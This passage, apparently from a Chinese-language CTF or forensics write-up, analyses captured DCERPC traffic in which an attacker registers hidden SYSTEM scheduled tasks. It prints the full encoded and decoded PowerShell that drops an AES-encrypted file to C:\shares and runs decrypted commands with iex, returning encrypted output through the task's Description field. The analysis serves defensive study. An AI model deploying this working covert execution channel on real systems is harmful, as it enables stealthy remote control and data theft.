ACAAPQAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAuAFIAZQBnAGkAcwB0AHIAYQB0AGkAbwBuAEkAbgBmAG8ALgBEAGUAcwBjAHIAaQBwAHQAaQBvAG4ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAD0AIABEAGUAYwByAHkAcAB0AC0ARABhAHQAYQAgACQAZQBuAGMAcgB5AHAAdABpAG8AbgBLAGUAeQAgACQAZABlAHMAYwByAGkAcAB0AGkAbwBuAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIwAgAGIAYQBzAGUANgA0ACAAZABlAGMAbwBkAGUAIABnAGUAdAAgAHIAYQB3ACAAZABhAHQAYQAgAGEAbgBkACAAcwBhAHYAZQAgAGkAdAAgAHQAbwAgAGYAaQBsAGUACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAGQAZQBjAG8AZABlAEQAYQB0AGEAIAA9ACAAQwBvAG4AdgBlAHIAdABGAHIAbwBtAC0AQgBhAHMAZQA2ADQAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAIABpAGYAIAB0AGEAcgBnAGUAdAAgAHAAYQB0AGgAIABuAG8AdAAgAGUAeABpAHMAdABzACwAIABjAHIAZQBhAHQAZQAgAGkAdAAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABpAHIAIAA9ACAAUwBwAGwAaQB0AC0AUABhAHQAaAAgACQAdABhAHIAZwBlAHQAXwBwAGEAdABoAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAaQBmACAAKAAhACgAVABlAHMAdAAtAFAAYQB0AGgAIAAtAFAAYQB0AGgAIAAkAGQAaQByACkAKQAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAE4AZQB3AC0ASQB0AGUAbQAgAC0ASQB0AGUAbQBUAHkAcABlACAARABpAHIAZQBjAHQAbwByAHkAIAAtAFAAYQB0AGgAIAAkAGQAaQByAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABlAGMAbwBkAGUARABhAHQAYQAgAHwAIABTAGUAdAAtAEMAbwBuAHQAZQBuAHQAIAAtAFAAYQB0AGgAIAAiAEMAOgBcAHMAaABhAHIAZQBzAFwAZQBuAGMALQBvAGIALgBwAHMAMQAiACAALQBFAG4AYwBvAGQAaQBuAGcAIABCAHkAdABlAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJAByAGUAcwB1AGwAdAAgAD0AIAAiAFsAKwBdACAAUwB1AGMAYwBlAHMAcwAuACIACgAgACAAIAAgACAAIAAgACAAfQAgAAoAIAAgACAAIAAgACAAIAAgAGMAYQB0AGMAaAAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHIAZQBzAHUAbAB0ACAAPQAgACQAXwAuAEUAeABjAGUAcAB0AGkAbwBuAC4ATQBlAHMAcwBhAGcAZQAKACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAB9AAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAFIAZQBzAHUAbAB0ACAAPQAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJAByAGUAcwB1AGwAdAAKAAoAIAAgACAAIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgACQAZQBuAGMAcgB5AHAAdABlAGQAUgBlAHMAdQBsAHQACgAgACAAIAAgACQAdQBzAGUAcgAgAD0AIAAkAHQAYQBzAGsALgBQAHIAaQBuAGMAaQBwAGEAbAAuAFUAcwBlAHIASQBkAAoAIAAgACAAIAAkAGYAbwBsAGQAZQByAC4AUgBlAGcAaQBzAHQAZQByAFQAYQBzAGsARABlAGYAaQBuAGkAdABpAG8AbgAoACQAdABhAHMAawAuAE4AYQBtAGUALAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAsACAANgAsACAAJAB1AHMAZQByACwAIAAkAG4AdQBsAGwALAAgACQAdABhAHMAawAuAEQAZQBmAGkAbgBpAHQAaQBvAG4ALgBQAHIAaQBuAGMAaQBwAGEAbAAuAEwAbwBnAG8AbgBUAHkAcABlACkACgB9AGMAYQB0AGMAaAAgAHsACgAgACAAIAAgAFcAcgBpAHQAZQAtAEUAcgByAG8AcgAgACIARgBhAGkAbABlAGQALgAuACIACgB9AAoAZgBpAG4AYQBsAGwAeQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AFIAZQBsAGUAYQBzAGUAQwBvAG0ATwBiAGoAZQBjAHQAKAAkAHMAYwBoAGUAZAB1AGwAZQByACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFsARQBuAHYAaQByAG8AbgBtAGUAbgB0AF0AOgA6AEUAeABpAHQAKAAwACkA</Arguments>
    </Exec>
  </Actions>
</Task>
```


解码后的 powershell 代码如下:

```powershell
$target_path = "C:\shares\enc-ob.ps1"
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("sXyZlzbmMvTLC6I2uVp0dQ==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
    $result = ""
    $folder = $scheduler.GetFolder($taskPath)
    $task = $folder.GetTask("PpQctPXM")
    $definition = $task.Definition
    if (Test-Path -Path $target_path) {
        $result = "[-] File already exists."
    }else{
        try {
            $description = $definition.RegistrationInfo.Description
            $decryptedDescription = Decrypt-Data $encryptionKey $description
            # base64 decode get raw data and save it to file
            $decodeData = ConvertFrom-Base64 $decryptedDescription
            # if target path not exists, create it
            $dir = Split-Path $target_path
            if (!(Test-Path -Path $dir)) {
                New-Item -ItemType Directory -Path $dir
            }
            $decodeData | Set-Content -Path "C:\shares\enc-ob.ps1" -Encoding Byte
            $result = "[+] Success."
        } 
        catch {
            $result = $_.Exception.Message
        }
    }
    $encryptedResult = Encrypt-Data $encryptionKey $result

    $definition.RegistrationInfo.Description = $encryptedResult
    $user = $task.Principal.UserId
    $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
}catch {
    Write-Error "Failed.."
}
finally {
    [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
}
[Environment]::Exit(0)
```

返回的响应内容解密后如下

```
[+] Success.
```

然后我们在分析第二次请求，步骤和之前的一样

先提取 `DCERPC` 传输的数据

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>8yLjfV/HOVd9i7sIIiU6BwxB0rS+fWP/9Zo8ydXMNLLEmbb2SC9DUDbbHDsgxO/5</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13.2757294</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc JAB0AGEAcwBrAFAAYQB0AGgAIAA9ACAAIgBcACIACgAkAGUAbgBjAHIAeQBwAHQAaQBvAG4ASwBlAHkAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIARgBnAEIAQgB3AHYAZwBQAHMAZAAxAEcAQwB5AE4AcgAvACsAbwA3AG0AdwA9AD0AIgApAAoAZgB1AG4AYwB0AGkAbwBuACAAQwBvAG4AdgBlAHIAdABUAG8ALQBCAGEAcwBlADYANAAoACQAYgB5AHQAZQBBAHIAcgBhAHkAKQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBBAHIAcgBhAHkAKQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEMAbwBuAHYAZQByAHQARgByAG8AbQAtAEIAYQBzAGUANgA0ACgAJABiAGEAcwBlADYANABTAHQAcgBpAG4AZwApACAAewAKACAAIAAgACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACgAJABrAGUAeQAsACAAJABkAGEAdABhACkAIAB7AAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBNAGEAbgBhAGcAZQBkAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBNAG8AZABlACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEMAaQBwAGgAZQByAE0AbwBkAGUAXQA6ADoAQwBCAEMACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAFAAYQBkAGQAaQBuAGcAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AUABhAGQAZABpAG4AZwBNAG8AZABlAF0AOgA6AFAASwBDAFMANwAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASwBlAHkAIAA9ACAAJABrAGUAeQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ARwBlAG4AZQByAGEAdABlAEkAVgAoACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4AQwByAGUAYQB0AGUARQBuAGMAcgB5AHAAdABvAHIAKAApAAoAIAAgACAAIAAkAHUAdABmADgAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGQAYQB0AGEAKQAKACAAIAAgACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhACAAPQAgACQAZQBuAGMAcgB5AHAAdABvAHIALgBUAHIAYQBuAHMAZgBvAHIAbQBGAGkAbgBhAGwAQgBsAG8AYwBrACgAJAB1AHQAZgA4AEIAeQB0AGUAcwAsACAAMAAsACAAJAB1AHQAZgA4AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAgACAAIAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASQBWACAAKwAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAKACAAIAAgACAAcgBlAHQAdQByAG4AIABDAG8AbgB2AGUAcgB0AFQAbwAtAEIAYQBzAGUANgA0ACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEQAZQBjAHIAeQBwAHQALQBEAGEAdABhACgAJABrAGUAeQAsACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhACkAIAB7AAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBNAGEAbgBhAGcAZQBkAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBNAG8AZABlACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEMAaQBwAGgAZQByAE0AbwBkAGUAXQA6ADoAQwBCAEMACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAFAAYQBkAGQAaQBuAGcAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AUABhAGQAZABpAG4AZwBNAG8AZABlAF0AOgA6AFAASwBDAFMANwAKACAAIAAgACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAgAD0AIABDAG8AbgB2AGUAcgB0AEYAcgBvAG0ALQBCAGEAcwBlADYANAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASQBWACAAPQAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAWwAwAC4ALgAxADUAXQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASwBlAHkAIAA9ACAAJABrAGUAeQAKACAAIAAgACAAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBDAHIAZQBhAHQAZQBEAGUAYwByAHkAcAB0AG8AcgAoACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQBCAHkAdABlAHMAIAA9ACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQBbADEANgAuAC4AJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAuAEwAZQBuAGcAdABoAF0ACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABlAGQARABhAHQAYQBCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAKACAAIAAgACAAcgBlAHQAdQByAG4AIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACkACgB9AAoACgAkAHMAYwBoAGUAZAB1AGwAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAEMAbwBtAE8AYgBqAGUAYwB0ACAAUwBjAGgAZQBkAHUAbABlAC4AUwBlAHIAdgBpAGMAZQAKACQAcwBjAGgAZQBkAHUAbABlAHIALgBDAG8AbgBuAGUAYwB0ACgAKQAKAHQAcgB5ACAAewAKACAAIAAgACAAJABmAG8AbABkAGUAcgAgAD0AIAAkAHMAYwBoAGUAZAB1AGwAZQByAC4ARwBlAHQARgBvAGwAZABlAHIAKAAkAHQAYQBzAGsAUABhAHQAaAApAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAAJABmAG8AbABkAGUAcgAuAEcAZQB0AFQAYQBzAGsAKAAiAEoAVQBFAEQAVABuAGcATAAiACkACgAgACAAIAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAgAD0AIAAkAHQAYQBzAGsALgBEAGUAZgBpAG4AaQB0AGkAbwBuAAoAIAAgACAAIAAkAGQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAD0AIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuAAoACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABlAGQARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgAEQAZQBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJABkAGUAcwBjAHIAaQBwAHQAaQBvAG4ACgAgACAAIAAgACQAZQB4AGUAYwB1AHQAaQBvAG4AUgBlAHMAdQBsAHQAIAA9ACAAaQBlAHgAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAFIAZQBzAHUAbAB0ACAAPQAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJABlAHgAZQBjAHUAdABpAG8AbgBSAGUAcwB1AGwAdAAKAAoAIAAgACAAIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgACQAZQBuAGMAcgB5AHAAdABlAGQAUgBlAHMAdQBsAHQACgAgACAAIAAgACQAdQBzAGUAcgAgAD0AIAAkAHQAYQBzAGsALgBQAHIAaQBuAGMAaQBwAGEAbAAuAFUAcwBlAHIASQBkAAoAIAAgACAAIAAkAGYAbwBsAGQAZQByAC4AUgBlAGcAaQBzAHQAZQByAFQAYQBzAGsARABlAGYAaQBuAGkAdABpAG8AbgAoACQAdABhAHMAawAuAE4AYQBtAGUALAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAsACAANgAsACAAJAB1AHMAZQByACwAIAAkAG4AdQBsAGwALAAgACQAdABhAHMAawAuAEQAZQBmAGkAbgBpAHQAaQBvAG4ALgBQAHIAaQBuAGMAaQBwAGEAbAAuAEwAbwBnAG8AbgBUAHkAcABlACkACgB9AGMAYQB0AGMAaAAgAHsACgAgACAAIAAgAFcAcgBpAHQAZQAtAEUAcgByAG8AcgAgACIARgBhAGkAbABlAGQALgAuACIACgB9AAoAZgBpAG4AYQBsAGwAeQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AFIAZQBsAGUAYQBzAGUAQwBvAG0ATwBiAGoAZQBjAHQAKAAkAHMAYwBoAGUAZAB1AGwAZQByACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFsARQBuAHYAaQByAG8AbgBtAGUAbgB0AF0AOgA6AEUAeABpAHQAKAAwACkA</Arguments>
    </Exec>
  </Actions>
</Task>
```

解码后的 powershell 代码如下:

```powershell
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("FgBBwvgPsd1GCyNr/+o7mw==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}

$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
    $folder = $scheduler.GetFolder($taskPath)
    $task = $folder.GetTask("JUEDTngL")
    $definition = $task.Definition
    $description = $definition.RegistrationInfo.Description

    $decryptedDescription = Decrypt-Data $encryptionKey $description
    $executionResult = iex $decryptedDescription | Out-String
    $encryptedResult = Encrypt-Data $encryptionKey $executionResult

    $definition.RegistrationInfo.Description = $encryptedResult
    $user = $task.Principal.UserId
    $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
}catch {
    Write-Error "Failed.."
}
finally {
    [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
}
[Environment]::Exit(0)
```

解密后执行的命令如下

```
C:\shares\enc-ob.ps1
```

然后再提取并分析这次请求的响应数据

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>XpBNK3kVGru7q0VqsL2v+MVe0BJ87lAhPzT7VYgLl9k=</Description>
    <URI>\JUEDTngL</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Hidden>true</Hidden>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc JAB0AGEAcwBrAFAAYQB0AGgAIAA9ACAAIgBcACIACgAkAGUAbgBjAHIAeQBwAHQAaQBvAG4ASwBlAHkAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIARgBnAEIAQgB3AHYAZwBQAHMAZAAxAEcAQwB5AE4AcgAvACsAbwA3AG0AdwA9AD0AIgApAAoAZgB1AG4AYwB0AGkAbwBuACAAQwBvAG4AdgBlAHIAdABUAG8ALQBCAGEAcwBlADYANAAoACQAYgB5AHQAZQBBAHIAcgBhAHkAKQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBBAHIAcgBhAHkAKQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEMAbwBuAHYAZQByAHQARgByAG8AbQAtAEIAYQBzAGUANgA0ACgAJABiAGEAcwBlADYANABTAHQAcgBpAG4AZwApACAAewAKACAAIAAgACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACgAJABrAGUAeQAsACAAJABkAGEAdABhACkAIAB7AAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBNAGEAbgBhAGcAZQBkAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBNAG8AZABlACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEMAaQBwAGgAZQByAE0AbwBkAGUAXQA6ADoAQwBCAEMACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAFAAYQBkAGQAaQBuAGcAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AUABhAGQAZABpAG4AZwBNAG8AZABlAF0AOgA6AFAASwBDAFMANwAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASwBlAHkAIAA9ACAAJABrAGUAeQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ARwBlAG4AZQByAGEAdABlAEkAVgAoACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4AQwByAGUAYQB0AGUARQBuAGMAcgB5AHAAdABvAHIAKAApAAoAIAAgACAAIAAkAHUAdABmADgAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGQAYQB0AGEAKQAKACAAIAAgACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhACAAPQAgACQAZQBuAGMAcgB5AHAAdABvAHIALgBUAHIAYQBuAHMAZgBvAHIAbQBGAGkAbgBhAGwAQgBsAG8AYwBrACgAJAB1AHQAZgA4AEIAeQB0AGUAcwAsACAAMAAsACAAJAB1AHQAZgA4AEIAeQB0AGUAcwAuA